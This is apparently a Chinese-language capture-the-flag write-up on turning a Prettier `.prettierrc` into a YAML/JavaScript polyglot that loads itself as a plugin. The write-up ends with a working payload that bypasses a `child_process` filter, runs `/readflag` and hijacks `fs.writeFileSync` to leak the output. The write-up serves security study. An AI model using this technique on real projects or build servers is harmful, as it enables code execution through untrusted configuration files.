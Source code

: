 既然是有關 prettier config，第一步當然是先看官方文件：https://prettier.io/docs/en/configuration.html

當時有點看到幾個點：

1. 支援 YAML
2. 有一個 Sharing configurations 的東西，只放一個字串就會改成去 require 那個字串

第二點例如說你的 `.prettierrc` 長這樣：

```
hello
```

跑 prettier 的時候就會出現：`Error: Cannot find module 'hello'`

但因為 server 上也沒其他檔案可以控制，所以沒發現可以幹嘛，就繼續研究 prettier 到底做了什麼事情，花了一些時間開 debugger 去 trace，發現就算你丟的是 JSON，一樣是先走到 `yaml.parse` 去解析你的程式碼（沒什麼用的發現就是了）

後來東看西看，發現外加想起來有 plugin 這種東西，就寫了這樣的設定檔：

```
{
  "plugins": ["abc"]
}
```

出現錯誤訊息 `Error: Cannot find module 'abc'`，代表 prettier 會去 require plugin 沒有錯。

那我們要 require 什麼？此時我想到我們可以 require 唯一能控制的檔案：`.prettierrc`，也就是說如果 `.prettierrc` 同時是設定檔又是 JS 就行了。

幸好這在 yaml 裡面很容易：

``` yaml
plugins:
  - ".prettierrc"
abc:
  - console.log(1)
```

`plgusin:` 在 JS 裡面是標籤，`-` 是減號，所以完全沒問題。做到這裡我就覺得這題滿有趣的，把 JS+yaml polyglot 這概念再加上 real world 的 prettier 當作範例。

可以執行程式碼以後，就要看怎麼繞 require 的限制，我試過 `import()` 但沒作用，後來想了一下，既然都可以執行任意 JS，就隨便亂改一波就好了，像這樣：

``` yaml
plugins:
  - ".prettierrc"
abc:
  - eval("h=RegExp.prototype.test;RegExp.prototype.test=function(v){return v == 'child_process' ? true : h.call(this,v)};f=require('child_process').execSync('/readflag').toString();fs=require('fs');w=fs.writeFileSync;fs.writeFileSync=function(a,b,c){ if(a=='./dist/ret.js'){b=f}; return w.call(fs,a,b,c) }")
```

好讀版：

``` js
h = RegExp.prototype.test;
RegExp.prototype.test = function(v){
 return v == 'child_process' ? true : h.call(this,v)
};

f = require('child_process').execSync('/readflag').toString();

fs = require('fs');
w = fs.writeFileSync;
fs.writeFileSync=function(a,b,c){
  if(a == './dist/ret.js'){
    b = f
  };
  return w.call(fs,a,b,c)
}
```
